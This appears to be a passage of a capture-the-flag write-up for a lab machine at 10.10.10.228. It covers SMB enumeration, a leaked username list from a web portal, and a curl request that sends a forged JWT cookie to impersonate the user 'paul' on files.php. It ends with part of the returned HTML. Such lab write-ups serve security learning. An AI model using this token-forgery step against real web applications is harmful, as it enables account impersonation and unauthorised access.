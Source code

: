 # SMB

![image](https://user-images.githubusercontent.com/68326057/117789825-59ec5180-b266-11eb-82e5-eb41e7b15341.png)

--> Guest,guest ,''  access denied

with smbclient also
![image](https://user-images.githubusercontent.com/68326057/117790030-95871b80-b266-11eb-90ba-e795eff7d6f4.png)

# WEB

--> https://10.10.10.228/portal/php/users.php

![image](https://user-images.githubusercontent.com/68326057/117791297-c7e54880-b267-11eb-87f2-397e428800c3.png)

usernames:-

```bash
alex
paul	
jack
olivia
john
emma
william
lucas
sirine
juliette
support
````

![image](https://user-images.githubusercontent.com/68326057/117791413-ee0ae880-b267-11eb-9740-38ace877707d.png)


![image](https://user-images.githubusercontent.com/68326057/117792244-be101500-b268-11eb-8d58-89f8a03f8b85.png)

Cookie token:-

![image](https://user-images.githubusercontent.com/68326057/117792499-f6afee80-b268-11eb-840b-4bac96f1f10a.png)

Change the name to paul:-

![image](https://user-images.githubusercontent.com/68326057/117794033-768a8880-b26a-11eb-83d2-3f7bc6910670.png)


```bash
$ curl http://10.10.10.228/portal/php/files.php --cookie "PHPSESSID=test1e9549a0bf4b172e168a9ca5cbaa6fdb;token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.v7sPn4LCA0KEKjFlz6iFWjNYIfImvNn-qE-FRqU1Xa8"
```

```html
<html lang="en">
    <head>
        <title>Binary</title>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
        <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
        <link rel="stylesheet" type="text/css" href="../assets/css/main.css">
        <link rel="stylesheet" type="text/css" href="../assets/css/all.css">
    </head>
```